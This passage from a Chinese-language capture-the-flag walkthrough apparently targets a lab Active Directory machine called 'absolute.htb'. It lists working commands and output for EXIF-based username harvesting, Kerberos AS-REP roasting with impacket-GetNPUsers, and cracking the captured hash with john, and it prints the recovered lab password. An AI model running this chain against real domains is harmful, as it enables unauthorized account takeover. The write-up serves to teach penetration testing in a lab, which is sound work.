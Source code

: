 看到 `STATUS_ACCOUNT_DISABLED` 报错，表示 `Guest` 账户并没有启用。

## 03. HTTP服务信息收集

然后我们访问 `http://10.10.11.181/` 经过一番收集，没有发现有用的线索。后来看了官方提示之后，才发现要从网页的 jpg 图片中找线索。

> [!note]
> 这个操作乍一看非常脑洞，本着实事求是的态度。尝试搜索了一下实战中是否真能用上这操作。还真找到了实战案例。感兴趣可以读一下下面两个案例
> 1. Gitlab中group logo的Exif数据泄露敏感信息( 赏金: 500美元 )( https://hackerone.com/reports/446238 )
> 2. IRCCloud 用户上传的图片的Exif数据泄露地理位置( 赏金: 200美元 )( https://hackerone.com/reports/906907 )

我们下载网页里所有的图片，然后使用 `exiftool` 提取图片中的元数据，获得图片所有者的姓名。然后根据姓名，生成一份用户名字典。再通过枚举Kerberos预认证得到有效的用户名称。

1. 从网页图片中获取作者姓名：`exiftool *.jpg | grep Author`
2. 根据姓名，生成一份用户名字典：`username-anarchy --input-file Author.txt > usernames_list.txt`
3. 使用 Kerberos 预认证验证有效的用户名：`impacket-GetNPUsers absolute.htb/ -usersfile usernames_todo.txt | grep -v "Client not found in Kerberos database"`

```bash
kali@kali[~]$ impacket-GetNPUsers absolute.htb/ -usersfile usernames_todo.txt | grep -v "Client not found in Kerberos database"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User j.roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.chaffrey doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$d.klay@ABSOLUTE.HTB:da75935648dce608492a9bfef50ce5ee$f7c32f2f3065d60b09f68a42448056398c60720b50d4574d8ecd65a0fefb1cb3be2c30e776d7aed8787f6f9c700da00a772908082dc887741d4e5e45d38f0024a08bba2f7ba4d164b57bf9c7c3e89c6edc512a529e6bace818ca5d5fe4f39417888bb6ee92b940aaf5fc65cd215ca8a9bba634cb8c21fb548e3d0df38add66453d0e5856e9b685bc5c394b12792ade8aebc96be6a0d71fdfae86ad9c2784eafbbabd62e47e3bf080d42f43fb545bc26f61ecb327cfbb6c29526e18313a8e42eef1cf17806d2e08731995dd9012aac5af8bf1a7048b63e9963a50dd19b51c9b0b6cb25b902612d6469e5474e9
[-] User s.osvald doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User n.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
```

我们得到了一份有效的域用户的用户名

```
j.roberts
m.chaffrey
d.klay
s.osvald
j.robinson
n.smith
```

同时，`impacket-GetNPUsers` 会记录下无需进行Kerberos预认证的账户所获取到的TGT (这也就是所谓的 ASREProast攻击)。我们使用 `john` 爆破得到的 TGT，得到了 `d.klay` 用户的明文密码：

```bash
kali@kali[~]$ john hash --wordlist=/usr/share/wordlists/rockyou.txt       
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Darkmoonsky248girl ($krb5asrep$23$d.klay@ABSOLUTE.HTB)     
1g 0:00:01:12 DONE (2025-03-10 15:04) 0.01379g/s 154983p/s 154983c/s 154983C/s DarrenCahppell..DarkAngelNinjaHaku
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
